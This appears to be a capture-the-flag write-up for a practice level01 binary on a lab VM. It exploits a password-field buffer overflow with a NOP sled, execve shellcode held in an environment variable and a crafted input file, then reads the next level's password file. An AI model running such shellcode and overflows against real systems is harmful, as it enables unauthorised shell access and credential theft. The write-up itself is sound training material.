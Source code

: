 The program asks for username and password. We find username = "dat_wil" and password = "admin" through asm analysis. However, this will not open a shell: we are going to have to overflow.


We will overflow the second fgets which corresponds to the password query. Through gdb, we observe that the offset is 80.


First, let's copy our getenvaddr C program to the vm


	$ scp -P 4242 level01/Ressources/getenvaddr.c level00@192.168.56.105:/tmp


From here, we will be working on the VM


Compile the c program:


	$ gcc -m32 /tmp/getenvaddr.c -o /tmp/getenvaddr


Define an environment variable containing our shellcode, left-padded with no-ops

	$ export SHELLCODE=$(python -c 'print "\x90"*1000')$(echo -ne "\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80")

Find its address with getenvaddr, and add the output for the location of the shellcode

	$ /tmp/getenvaddr SHELLCODE
	0xffffd4eb

ffffd4eb + a = ffffd4f5

Our shellcode address is 0xffffd4f5

We can now write our input file, which consists of: USERNAME + NEWLINE + PADDING + SHELLCODE_ADDRESS

	$ python -c 'print "dat_wil"+"\n"+"A"*80+"\xf5\xd4\xff\xff"' > /tmp/exploit

We're all set, let's get in

	$ cat /tmp/exploit - | ./level01

This should open up a shell

	$ cat /home/users/level02/.pass

And voilà!